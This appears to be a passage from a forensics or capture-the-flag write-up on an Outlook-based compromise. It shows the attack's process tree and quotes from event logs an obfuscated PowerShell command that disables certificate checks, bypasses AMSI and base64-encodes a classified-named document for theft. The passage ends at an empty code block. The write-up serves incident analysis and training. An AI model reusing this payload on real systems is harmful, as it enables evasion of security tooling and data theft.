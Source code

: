 >2.	What was the process that was most likely compromised?

The whole Microsoft article is about a critical elevation of privileges through `OUTLOOK`. So the answer is Outlook.
Outlook, just needs to be opened and a reminder will trigger the payload.

Out of curiosity the process tree of the RCE coming from `svchost.exe` binaryis the following:
```
896  C:\Windows\System32\svchost.exe
  |-->  9248  C:\Windows\System32\wbem\WmiPrvSE.exe
		|--> 5208 C:\Windows\System32\cmd.exe
		|       |--> 3968  C:\Windows\System32\whoami.exe
		+--> 11168  C:\Windows\System32\cmd.exe
		|       |--> 7324  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
		+--> 7936  C:\Windows\System32\cmd.exe
		|       |--> 10268  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
		|--> 9896  C:\Windows\System32\cmd.exe
			   |--> 7940  C:\Windows\System32\shutdown.exe
```

>3.	What is the filename of the exfiltrated document? 

To answer this question we recommend that you go to the XML files and search for the executed command.

Extract and clean it up:

```
<Data Name='OriginalFileName'>PowerShell.EXE</Data>
      <Data Name='CommandLine'>powershell.exe  -exec bypass -noni -nop -w 1 -C "" $(set-iTEM 'vARiAbLe:oFS' '')"+[strInG]( '91H78&lt;101;116Z46w83;101l114U118w105k99l101;80Z111l105&lt;110k116;77w97l110P97Z103l101;114H93Z58;58U83H101w114Z118k101k114H67l101;114k116U105k102k105Z99Z97k116k101k86Z97Z108Z105U100k97Z116P105P111&lt;110Z67k97;108l108k98H97H99w107U32l61k32l123k36&lt;116H114l117l101k125w10H116k114l121w123&lt;10U91k82w101w102&lt;93k46&lt;65U115Z115k101H109;98w108k121l46P71Z101H116H84;121w112w101P40w39;83H121&lt;115w39k43w39U116U101w109P46H77P97w110P39k43Z39&lt;97H103w101w109k101;110;116Z46Z65P117U116U39;43k39U111k109U97k116P105;111&lt;110l46k65l109H39H43l39P115&lt;105&lt;85U116;39H43&lt;39;105U108l115P39H41H46l71k101U116U70l105k101l108H100k40P39k97;109Z39H43w39&lt;115k105k73w110k105k39w43Z39k116w70w97k105k108k101w100l39&lt;44w32&lt;39H78;111w110Z80H39Z43k39l117k98k108&lt;105k99&lt;44l83k116H97P39;43U39k116Z105&lt;99l39k41k46k83&lt;101H116U86w97U108H117k101Z40Z36Z110;117Z108U108Z44w32l36U116;114w117H101H41;10l125k99Z97Z116U99l104&lt;123U125U10k91k99P111k110Z118P101Z114l116w93H58Z58w84w111H66Z97P115;101H54k52l83k116w114&lt;105w110P103U40&lt;40U71&lt;101U116P45Z67l111k110Z116w101P110&lt;116w32H45l112k97k116&lt;104U32P34k67H58;92H85H115H101H114H115w92l103H97;115w116P111;110H46l108&lt;97H103H97k102k102w101w92U68H111k99;117H109P101l110;116l115w92&lt;76P65;85H78P67;72H32l67l79U68P69P83H32w40w67k76k65Z83P83w73l70U73P69U68&lt;41P46;100l111&lt;99U120P34Z32l45P69H110w99&lt;111w100&lt;105Z110k103w32P98H121&lt;116&lt;101H41P41'-sPlIT'w' -SPlit'P' -SpLIT 'l' -SPliT 'Z' -splIT'U' -SPlIT 'k' -SPlIt '&lt;'-sPLit 'H' -spLit'k'-SPLiT';' |fOrEacH{ ([cHar] [Int] $_)} ) +" $(SEt-ItEM  'vARIABLe:ofs' ' ') "|&amp;( $vERbOSePrefereNCe.TOstriNg()[1,3]+'X'-jOiN'')" </Data>
      <Data Name='CurrentDirectory'>C:\</Data>
      <Data Name='User'>QUICKEM-S7UTK0S\gaston.lagaffe</Data>
```
The code is obfuscated, you can notice the `-split` function at the end of the code.
Remove all the characters in the strange looking code that are given to a `-split` function and you obtain:

```
```